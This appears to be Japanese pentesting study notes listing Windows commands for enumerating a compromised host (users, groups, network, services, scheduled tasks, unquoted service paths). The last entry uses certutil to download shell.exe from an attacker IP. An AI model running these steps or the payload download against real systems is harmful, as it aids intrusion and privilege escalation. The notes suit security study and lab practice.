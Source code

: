 # Command Prompt

1. ホスト名\ユーザ名をターゲット上で取得する
```
whoami
```

2. シェルを取っている端末のユーザがどこのグループに属しているかを確認する。現在のユーザが属するグループをすべて表示する。
```
whoami /groups
```

3. 他の全てのローカルユーザのリストを取得する
```
net user
```

4. ホスト上の既存のグループを列挙する
```
net localgroup
```

5. OSのバージョンとアーキテクチャを取得する
```
systeminfo
```

6. 全てのネットワークインターフェースを表示する
```
ipconfig /all
```

7. 全てのルーティングテーブルを取得する
```
route print
```

8. 全てのアクティブなネットワーク接続のリストを取得する。  
-a => 全てのアクティブなTCP接続とTCP、UDPポートを表示する。
-n => 名前解決を無効にする  
-o => 各接続のプロセスIDを表示する
```
netstat -ano
```

9. バイナリに対応するプリンシパルとアクセス許可を出力する
```
icacls "C:\xampp\apache\bin\httpd.exe"
```
icaclsの権限は以下の通り  
MASK	PERMISSIONS  
F	Full access  
M	Modify access  
RX	Read and execute access  
R	Read-only access  
W	Write-only access  

10. Unquoted-Serviceの脆弱性がある可能性のあるサービスとバイナリファイルのパスを列挙する。
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

11. スケジュールされているすべてのタスクを確認する。  
/fo => 引数にLISTを渡してリスト形式の出力を得る  
/v => タスクのすべてのプロパティを表示する
```
schtasks /query /fo LIST /v
```

12. apphostsvcというサービスに対してクエリを送り、サービスの状態を確認する。
```
sc qc apphostsvc
```

13. LOLBASでcertutilを使ってファイルをダウンロードする。
```
certutil -urlcache -f http://192.168.45.216:80/shell.exe shell.exe
```